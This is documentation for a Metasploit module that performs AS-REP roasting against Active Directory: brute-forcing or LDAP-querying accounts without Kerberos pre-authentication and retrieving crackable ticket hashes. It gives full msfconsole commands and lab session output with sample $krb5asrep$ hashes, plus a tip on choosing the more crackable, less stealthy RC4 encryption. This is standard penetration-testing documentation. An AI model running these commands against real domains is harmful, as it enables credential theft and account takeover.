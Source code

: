 ## ASREP-roast

The `auxiliary/gather/asrep` module can be used to find users who have Pre-authentication disabled,
and retrieve credentials that can be cracked using a hash-cracking tool.

The following ACTIONS are supported:

- **BRUTE_FORCE**: Make TGT requests for all usernames in a given file. This does not require
  valid domain credentials.
- **LDAP**: Request the set of users with pre-authentication disabled using an LDAP query, and
  then request TGTs for these users.

## Module usage

- Start `msfconsole`
- Do: `use auxiliary/gather/asrep`
- Do: `run action=BRUTE_FORCE user_file=<file> rhost=<IP> domain=<FQDN> rhostname=<hostname>`
- The module will attempt to request TGTs for each of the users in the file. This should not lock out accounts.
  A crackable value will be displayed for all identified accounts.
- Do: `run action=LDAP rhost=<IP> username=<LDAP_User> password=<LDAP_Password> domain=<FQDN> rhostname=<hostname>`
- The module will use LDAP to request the users without pre-auth required, and request TGTs for these users.
  A crackable value will be displayed for all identified accounts.

## Options

### DOMAIN
The Fully Qualified Domain Name (FQDN). Ex: mydomain.local.

### USER_FILE
The file containing a list of usernames, each on a new line.

### RHostname

The hostname of the domain controller. Must be accurate otherwise the module will silently fail, even if users exist without pre-auth required.

### USE_RC4_HMAC
Request a ticket with the lower-security, more easily crackable, RC4_HMAC encryption type. This is 
usually preferable, but may be less stealthy.

## Scenarios

### Brute forcing users

An example of brute forcing usernames, in the hope of finding one with pre-auth not required:

```msf
msf6 auxiliary(gather/asrep) > run action=BRUTE_FORCE user_file=/tmp/users.txt rhost=192.168.1.1 domain=msf.local rhostname=dc22
[*] Running module against 192.168.1.1

$krb5asrep$23$user@MSF.LOCAL:9fb9954fa32193185ab32e2de2ab9f13$bf14e834c661246cad302073c228e6ff7894cd3023665f0f84338432c3929922ae998c4a23bb9d163dda536a230d0503b2cf575389317b52bde782264940e80206a29e9613e47328228441cf013fb1f6672359f6799be97b962de9429e8859f437e53549be6b11ca07af6f09eae6cd78279af6d7f6dcdfd011eccb74b4aa753b2f9e6561c59c9408ee4bec983777908f3a7eef5fba977710e47e4e8ac0af10608a7dd23db506202b27d7892bc28426d2080c343edfe243bf1cae554cf6204733082332be2455e4674e1c3e84614818a6c15b54221dcaa832

[*] Query returned 1 result.
[*] Auxiliary module execution completed
```

### Using LDAP

```
msf6 auxiliary(gather/asrep) > run action=LDAP rhost=192.168.1.1 username=azureadmin password=password ldap::auth=kerberos domain=msf.local domaincontrollerrhost=192.168.1.1 rhostname=dc22
[*] Running module against 192.168.1.1

[+] 192.168.1.1:88 - Received a valid TGT-Response
[*] 192.168.1.1:389 - TGT MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20231124083018_default_192.168.1.1_mit.kerberos.cca_409871.bin
[+] 192.168.1.1:88 - Received a valid TGS-Response
[*] 192.168.1.1:389 - TGS MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20231124083018_default_192.168.1.1_mit.kerberos.cca_923760.bin
[+] 192.168.1.1:88 - Received a valid delegation TGS-Response
[+] 192.168.1.1:389 Discovered base DN: DC=msf,DC=local
[+] 192.168.1.1:389 Discovered schema DN: DC=msf,DC=local

$krb5asrep$23$user@MSF.LOCAL:234e56b15bf3a0e3eb93d662ea6ded74$9889b0a449154c1353ea4db388af29381ad367771e2fe7d6a5644180e9f7ca0b1e836fc864f6d240e9ef91124edb13797dcb097f68c537279f80e3fc3c5c86f8f937af23bb2fd58274dd40ea184994cf31de50f508faac86c61749032b2d9e4ae4c74b0f76a0c242497e6765ddfba9c57743b19d4bb97aa3ef3b66cee50a1d3871b0b4ecd3f97d42781b6fb3d8839d8805ae1291d0e9ba07d374ed84ea39fadab548c2b40c87288b4465f234d0c3341e3b27c193a62a3ad7b0bdf04dbe5bf03815d48f766d1c727838f92dd36c437782975a978aefcb33e9

[*] Query returned 1 result.
[*] Auxiliary module execution completed
```